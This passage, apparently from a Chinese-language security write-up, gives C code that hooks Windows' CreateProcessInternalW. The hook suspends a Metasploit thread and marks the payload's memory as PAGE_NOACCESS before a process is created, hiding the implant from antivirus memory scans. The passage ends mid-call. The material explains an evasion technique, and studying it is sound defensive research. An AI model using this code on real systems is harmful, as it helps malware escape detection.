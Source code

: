 ```
BOOL 
WINAPI
hookCreateProcessInternalW(HANDLE hToken,
    LPCWSTR lpApplicationName,
    LPWSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCWSTR lpCurrentDirectory,
    LPSTARTUPINFOW lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation,
    PHANDLE hNewToken)
`{`
    BOOL res = FALSE;
    restoreHook(createProcessHookResult);
    createProcessHookResult = NULL;

    printf("My createProcess called\n");

    LPVOID options = makeProcessOptions(hToken, lpApplicationName, lpCommandLine, lpProcessAttributes, lpThreadAttributes, bInheritHandles, dwCreationFlags, lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation, hNewToken);

    HANDLE thread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)createProcessNinja, options, 0, NULL);

    printf("[!] Waiting for thread to finish\n");
    WaitForSingleObject(thread, INFINITE);

    GetExitCodeThread(thread, (LPDWORD)&amp; res);

    printf("[!] Thread finished\n");

    CloseHandle(thread);

    createProcessHookResult = installHook(CreateProcessInternalW, hookCreateProcessInternalW, 5);

    return res;
`}`
```

在最终调用`CreateProcess`前，我们在代码中使用了`setPermissions`，将我们内存区域权限设置为`PAGE_NOACCESS`。

```
BOOL createProcessNinja(LPVOID options) `{`
    LPPROCESS_OPTIONS processOptions = (LPPROCESS_OPTIONS)options;

    printf("Thread Handle: %02lX\n", metasploitThread);


    if (SuspendThread(metasploitThread) != -1) `{`
        printf("[!] Suspended thread \n");
    `}`
    else `{`
        printf("Couldnt suspend thread: %d\n", GetLastError());
    `}`


    setPermissions(allocatedAddresses.arr, allocatedAddresses.dwSize, PAGE_NOACCESS);

    BOOL res = CreateProcessInternalW(processOptions-&gt;hToken,
        processOptions-&gt;lpApplicationName,
```